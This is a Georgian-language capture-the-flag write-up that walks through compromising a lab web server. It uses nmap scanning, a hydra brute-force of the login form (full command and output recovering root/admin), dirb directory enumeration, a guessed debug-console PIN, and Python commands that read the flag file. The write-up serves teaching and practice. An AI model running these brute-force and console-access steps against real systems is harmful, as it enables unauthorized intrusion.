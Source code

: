 ## მოცემულია GNU/Linux სერვერი. თქვენი მიზანია მოიპოვოთ წვდომა სერვერზე და მოიპოვოთ ე.წ. "flag"-ი.

1. nmap-ის გამოყენებით ვნახოთ რომელი პორტებია სერვერზე გახსნილი:
    ```bash
    nmap 185.212.254.51
    ```
    Output:
    ```bash
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 09:35 EDT
    Nmap scan report for 185.212.254.51
    Host is up (0.021s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE
    8080/tcp open  http-proxy

    Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
    ```
    როგორც ვხედავთ 8080 პორტი გახსნილია და http-proxy არის გაშვებული

2. გავხსნათ ბრაუზერი და შევიდეთ ამ IP:PORT-ზე. URL-ში ჩავწეროთ “185.212.254.51:8080“.
    შესვლისას დაგვხვდება ასეთი ფეიჯი  
    ![index.png](.images/index.png)

3. ფეიჯის inspect-მა საინტერესო არაფერი გვანახა, ამიტომ შევეცადოთ bruteforce-ით გადავუაროთ და შევეცადოთ გავტეხოთ user/pass.

    ამისთვის გამოვიყენებთ hydra-ს.

    ```bash
    hydra -L <USER_FILE> -P <PASS_FILE> <HOST> -s <PORT> http-post-form "<PATH>:<BODY>:<ERR_MSG>" -V 

    Flags:
      -L Usernames ფაილის მითითება
      -P Passwords ფაილის მითითება
      -s პორტის მითითება
      -V (Verbos mode) გამოიტანს ყველა მცდელობას
      -f შეწყვეტს ძებნას პირველივე სწორი აუთენთიფიკაციისთანავე

    Variables:
      <USER_FILE> - ფაილი, საიდანაც წაიკIთხავს იუზერნეიმების სიას
      <PASS_FILE> - ფაილი, საიდანაც წაიკIთხავს პაროლების სიას
      <HOST> - IP მისამართი, რომელიც უნდა გავტეხოთ
      <PORT> - პორტი რომელზეც არის კონკრეტული სერვისი გაშვებული
      <PATH> - საიტზე იმ ფაილის მისამართი, სადაც ხდება აუთენთიფიკაცია
      <BODY> - პარამეტრები, რომლებიც გადაეცემა დალოგინებისას
      <ERR_MSG> - წარუმატებელი დალოგინებისას გამოტანილი მესიჯი
    ```

    * **USER_FILE** - გამოვიყენოთ metasploit-ის მიერ წინასწარ შედგენილი wordlist იუზერნეიმებისთვი, მოთავსებულია utils/metasploit ფოლდერში სახელად `unix_users.txt` (Kali-ის მომხმარებლებმა შეგიძლია მიუთითოთ შემდეგი ფაილი: /usr/share/wordlists/metasploit/unix_users.txt)
    * **PASS_FILE** - გამოვიყენოთ metasploit-ის მიერ წინასწარ შედგენილი wordlist იუზერნეიმებისთვი, მოთავსებულია utils/metasploit ფოლდერში სახელად `unix_passwords.txt` (Kali-ის მომხმარებლებმა შეგიძლია მიუთითოთ შემდეგი ფაილი: /usr/share/wordlists/metasploit/unix_passwords.txt) 
    * **HOST** - IP მისამართი რომელზეც სერვერია გაშვებული, ჩემს შემთხვევაში `185.212.254.51`
    * **PORT** - როგორც პირველ პუნქტში ვნახეთ სერვერი გაშვებულია `8080` პორტზე
    * **PATH** - დასალოგინებლად უნდა შევიდეთ შემდეგ მისამართზე 185.212.254.52:8080/login ანუ ფაილის მისამართია `/login`
    * **BODY** - ამ პარამეტრების ნახვა შეგვიძლია network ტაბის გამოყენებით.
      * გავხსნათ Inspect ბრაუზერში და გადავიდეთ Network ტაბზე. 
      * ჩავწეროთ რენდომ იუზერნეიმ/პაროლი მაგალითად: test_user/test_pass
      * Network-ში ჩამონათვალში მოვნიშნოთ ის სტრიქონი, სადაც ფაილი არის login
      * ვნახოთ გაგზავნილი payload:
        * Chrome: Headers -> Form Data -> view Source
        * Firefox: Headers -> Edit and Resend -> Request Body
        * სხვა ბრაუზერებისთვის სხვანაირად იქნება და თქვენ იცით არ შერცხვეთ.

        შედეგი: '''username=test_user&password=test_pass&login-submit=Log+In'''
        Hydra-ს უნდა მივუთითოთ თუ სად უნდა ჩაწეროს username/password, ამისთვის იყენებენ ორ keywords: ^USER^ და ^PASS^.
        ჩვენს შემთხვაში test_user-ის მაგივრად უნდა ჩავწეროთ ^USER^, ხოლო test_pass-ის მაგივრად ^PASS^.
        საბოლოოდ ვიღებთ: `"username=^USER^&password=^PASS^&login-submit=LogIn"`
      ![body.png](.images/body.png)

    * **ERR_MSG** - დავლოგინდეთ რენდომ იუზერნეიმითა და პაროლით. ფეიჯზე გაჩნდება შემდეგი მესიჯი `Invalid Username/Password`

    ახლა კი ავაწყოთ მთლიანი ბრძანება:
    ```bash
      hydra -L unix_users.txt \
            -P unix_passwords.txt \
            185.212.254.52 \
            -s 8080 \
            http-post-form "/login:username=^USER^&password=^PASS^&login-submit=LogIn:Invalid Username/Password" \
            -V\
            -f
    ```
4. გავუშვათ წინა პუნქტში აწყობილი ბრძანება, hydra ცდის ყველა შესაძლო user/pass კომბინაციას, ჩემს შემთხვევაში ის 160'00ზე მეტია, ამიტომ ცოტახანი ლოდინი მოგვიწევს:
    Output:
    ```bash
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-24 15:02:30
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 169512 login tries (l:1/p:169512), ~64 tries per task
    [DATA] attacking http-post-form://185.212.254.52:8080/login:username=^USER^&password=^PASS^&login-submit=LogIn:Invalid Username/Password
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "admin" - 1 of 169512 [child 0] (0/0)
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "123456" - 2 of 169512 [child 1] (0/0)
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "12345" - 3 of 169512 [child 2] (0/0)
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "123456789" - 4 of 169512 [child 3] (0/0)
    ...
    ...
    ...
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "admin" - 54867 of 169512 [child 0] (0/0)
    [8080][http-post-form] host: 185.212.254.52   login: root   password: admin
    [STATUS] attack finished for 185.212.254.52 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-24 15:02:30
    ```
    როგორც ვხედავთ hydra-მ დაასრულა ძებნა და იპოვა შემდეგი წყვილი
    ```
    Username: root
    Password: admin
    ```
    პ.ს. -f ფლეგის გარეშე თუ ცდით ნახავთ, რომ სხვა წყვილებიც არსებობს, კონკრეტულად კი ყველა ისეთი წყვილი, რომელშიც user არის root
    
5. ჩავწეროთ წინა პუნქტში ნაპოვნი user/pass და შევიდეთ. შესვლისას გვხვდება ასეთი ფეიჯი
      ![login.png](.images/login.png)
  შევიძლია გადავუაროთ საიტს და დავათვალიეროთ. თქვენი არ ვიცი, მაგრამ მე ვერაფერი საინტერესო ვერ ვიპოვე.

6. ვინაიდან ვერაფერი ვიპოვეთ, გამოვიყენოთ dirb, რომელიც შეეცდება იპოვოს დამალული მისამართები. გავუშვათ ბრძანება:
    ```bash
    dirb http://185.212.254.52:8080/
    ```
    Output:
    ```bash
    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Sun May 24 15:14:01 2020
    URL_BASE: http://185.212.254.52:8080/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612                                                          

    ---- Scanning URL: http://185.212.254.52:8080/ ----
    + http://185.212.254.52:8080/charts (CODE:200|SIZE:11611)                      
    + http://185.212.254.52:8080/console (CODE:200|SIZE:1985)                      
    + http://185.212.254.52:8080/forms (CODE:200|SIZE:14437)                       
    + http://185.212.254.52:8080/login (CODE:200|SIZE:3656)                        
    + http://185.212.254.52:8080/logout (CODE:302|SIZE:209)                        
    + http://185.212.254.52:8080/profile (CODE:200|SIZE:4099)                      
    + http://185.212.254.52:8080/register (CODE:200|SIZE:4278)                     
    + http://185.212.254.52:8080/settings (CODE:200|SIZE:4102)                     
                                                                                  
    -----------------
    END_TIME: Sun May 24 15:16:04 2020
    DOWNLOADED: 4612 - FOUND: 8
    ```
    როგორც ჩანს, dirb ბრძანებამ 8 url იპოვა
    
     ამათგან შემდეგი 4:charts, forms, profile და settings ჩნდება როცა დავლოგინდებით და სხვადასხვა ფუნქციონალს გვაძლევს (ჩვენთვის არაფერი საინტერესო). 

     login, logout, register კი სახელიდანაც ვხვდებით რა შეიძლება იყოს

     დაგვრჩა console, რომელიც აქამდე არ შეგხვდერია

5. შევიდეთ console-ში ამ მისამართით: http://185.212.254.52:8080/console, სადაც დაგვხვდება შემდეგი ფეიჯი:
![console.png](.images/console.png)
    როგორც ჩანს გვესაჭიროება PIN. შეგიძლიათ გადაქექოთ ინსპექტით, შეეცადოთ js-ის კოდის გარჩევა და bruteforce, ხოლო მე კი მარტივ გზას მივმართავ.

    გავიხსენოთ ფეიჯი რომელიც დალოგინებისას დაგვხვდა, უფროსწორად მისი title "call me 177-373-989". შეგვიძლია ვივარაუდოთ რომ ამ რიცხვების მიმდევრობა იქნება PIN. ჩავწეროთ და ვნახავთ, რომ `177373989` არის სწორი პინი.

6. შესვლისთანავე გვხვდება პითონის ინტერაქციული კონსოლი, რომელიც ჩვენდა სასიკეთოდ შეგვიძლია ჩავწეროთ. ვნახოთ რა ფაილებს შეიცავს ის ფოლდერი სადაც პითონის კონსოლია გახსნილი შემდეგი ბრძანებებით:

    ```python
    [console ready]
    >>> import os
    >>> os.listdir('.')
    ['requirements.txt', 'db', 'run.sh', 'flag.txt', 'app.py', 'Dockerfile.save', 'static', 'Dockerfile',   ]
    ```
    გამოტანილ ფაილებში გვხვდება 'flag.txt', წავიკითხოთ მისი შიგთავსი (დავუბრუნდეთ პითონის კონსოლს):
    ```python
    >>> open('flag.txt').read()
    'flag{D388G!NG_!S_ART}'
    ```


    **გილოცავთ! ჩვენ ის ვიპოვეთ!**
